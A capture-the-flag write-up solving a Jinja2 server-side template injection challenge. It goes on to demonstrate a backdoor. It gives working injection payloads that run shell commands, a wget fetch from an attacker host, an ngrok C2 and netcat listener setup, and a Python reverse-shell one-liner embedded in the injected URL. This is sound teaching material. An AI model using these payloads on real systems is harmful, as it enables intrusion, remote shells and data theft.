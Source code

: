 # Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/

## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.<br />
![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

<br />The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.<br />
![alt text](img/Picture3.png)

<br />Our input is displayed successfully. 

A vulnerability called Server Side Template Injection (SSTI) could be present in this web app.
<br />SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side.
<br />Potential threats include unauthorised file disclosure and arbitrary code execution.

The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).
<br />A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. 
<br />Inserting the input **{{7*7}}** into the url parameter prints the output of **49**, confirming the existence of SSTI.
![alt text](img/Picture4.png)

<br />In order to use the correct payload, we will need to identify the template engine. <br />By injecting an invalid payload, an error will trigger and the engine is identified. <br />However if the error messages are suppressed, we will need to inject language-specific payloads. <br />Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection
<br />![alt text](img/Picture5.png)

<br />In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).
<br />SSTI Payloads can be found in **PayloadsAllTheThings** https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

We will use the following payload to execute the **id** command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<br />The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)


<br />List files in the directory using **ls** command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)


<br />The **flag.txt** is discovered in the directory. Obtain the flag using **cat** command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.<br /><br /><br />


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
<br />Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. <br />We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.<br /><br />

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

**curl** command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

<br />**wget** command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

<br />Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.<br /><br />

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. <br />However, this will cause security issues as our Public IP Address will be disclosed. <br />Thus, we will set up a Command and Control (C2) Server using **ngrok**. <br />Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

<br />The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

<br />Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```
<br />

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<br />In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. <br />In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

<br />In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

<br />Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

